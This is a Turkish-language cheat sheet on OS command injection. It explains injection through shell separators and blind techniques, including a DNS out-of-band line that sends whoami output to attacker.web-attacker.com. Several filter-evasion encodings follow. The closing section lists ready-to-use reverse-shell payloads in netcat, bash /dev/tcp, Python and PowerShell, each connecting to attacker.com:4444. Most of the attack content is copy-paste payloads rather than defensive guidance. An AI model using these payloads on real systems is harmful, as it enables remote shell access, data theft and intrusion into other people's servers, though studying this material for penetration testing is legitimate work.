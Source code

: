 # OS Command Injection (Komut Enjeksiyonu)

Komut enjeksiyonu (Command Injection), saldırganın uygulamanın komut çalıştırma mantığını manipüle ederek sistem komutları yürütmesini sağlar. Bu durum genellikle `system()`, `exec()`, `popen()` gibi fonksiyonların kullanıcı girdisiyle kullanılması sonucu ortaya çıkar.
 Örnek
Uygulama URL parametrelerinden aldığı verileri shell komutuna geçirmekte:
```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```
Arka planda şu komut çalışıyor:

```bash
stockreport.pl 381 29
```

Saldırgan şu şekilde input verirse:

```bash
productID=381 & echo aiwefwlguh &
```

Arka planda çalışan komut şu hale gelir:

```bash
stockreport.pl 381 & echo aiwefwlguh & 29
```

Çıktı:

```
Error - productID was not provided
aiwefwlguh
29: command not found
```

Bu da gösterir ki `echo` komutu başarıyla çalıştı.

---

## Blind (Kör) Komut Enjeksiyonu

Bazı uygulamalar, komut çıktısını doğrudan kullanıcıya dönmez. Bu durumda kör (blind) enjeksiyon teknikleri kullanılır.

### Gecikme (Delay) ile Test

```bash
& ping -c 10 127.0.0.1 &
```

Bu komut 10 saniyelik ping işlemi başlatır. Cevap gecikmesi varsa komut çalışmıştır.

### Çıktıyı Dosyaya Yazma

```bash
& whoami > /var/www/static/whoami.txt &
```

Sonra:

```
https://vulnerable-website.com/static/whoami.txt
```

### OAST (Out-of-Band) Yöntemi

```bash
& nslookup attacker.web-attacker.com &
```

Çıktıyı DNS isteğine gömmek için:

```bash
& nslookup `whoami`.attacker.web-attacker.com &
```

DNS kaydı örneği:

```
wwwuser.attacker.web-attacker.com
```

---

## Komut Ayırıcı Karakterler

| Karakter   | Açıklama                               | Sistem Uyumu      |
|------------|----------------------------------------|-------------------|
| `&`        | Komut ayırıcı                          | Linux & Windows   |
| `&&`       | Önceki komut başarılıysa devam         | Linux & Windows   |
| `|`        | Pipe: Çıktıyı diğerine geçirir         | Linux & Windows   |
| `||`       | Önceki komut başarısızsa devam         | Linux & Windows   |
| `;`        | Komut ayırıcı                          | Sadece Unix       |
| `\n`       | Yeni satır                             | Sadece Unix       |
| `` `cmd` ``| Inline komut çalıştırma                | Unix              |
| `$(cmd)`   | Inline komut çalıştırma                | Unix              |

---

## Gelişmiş Filtre Atlama Teknikleri

### Karakter Kodlamaları
- URL encode: `%26%26`, `%7C%7C`, `%3B`
- Hex-escape (bash): `$'\x26\x26'`, `\x26\x26`
- Unicode encode: `\u0026\u0026`

### Whitespace Obfuscation
```bash
ping${IFS}-c${IFS}5${IFS}127.0.0.1
```

### String Concatenation / Variable Expansion
- Bash: `echo ${ECHO:-echo} hello`
- Windows (cmd): `cmd /c e^cho hello`

### Case Manipulation
```bash
PiNg -c 3 127.0.0.1
```

### Redirection Bypass
- Geleneksel `>` yerine `1>` veya `2>&1` kullanın.
- Dosya açıklayıcı numaralarını manipüle edin (`>&2`, `&>output.txt`).

---

## İç İçe Komut Çalıştırma (Inline Execution)

- Backticks vs. `$()`  
  Bazı uygulamalar `` `cmd` ``’i engeller; o zaman `$(cmd)` deneyin.

```bash
$(echo $(whoami))
```

---

## HereDoc Injection

```bash
bash -c 'cat <<EOF > /tmp/x; whoami >> /tmp/x; EOF'
```

**Açıklama:**  
- `bash -c '…'` ile bir shell dizisi oluşturulur.  
- `cat <<EOF > /tmp/x` komutu, `EOF` etiketine kadar olan satırları `/tmp/x` dosyasına yazar (bu örnekte boş içerik).  
- Ardından `whoami >> /tmp/x` ile kullanıcı adı dosyaya eklenir.  
- `EOF` heredoc bloğunu kapatır.  
- Kör enjeksiyon durumunda, webroot altındaki bir dosyaya yönlendirip sonra URL ile çekmek için kullanılır.

---

# 6. İleri Düzey Reverse‑Shell ve Stager’lar

```bash
# 6.1. Netcat Ters Shell
&& nc attacker.com 4444 -e /bin/sh &&
```

```bash
# 6.2. Bash Stager (HTTP üzerinden)
&& bash -i >& /dev/tcp/attacker.com/4444 0>&1 &&
```

```bash
# 6.3. Python One‑Liner Shell
&& python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("attacker.com",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' &&
```

```powershell
# 6.4. PowerShell (Windows)
& powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacker.com",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() &
```
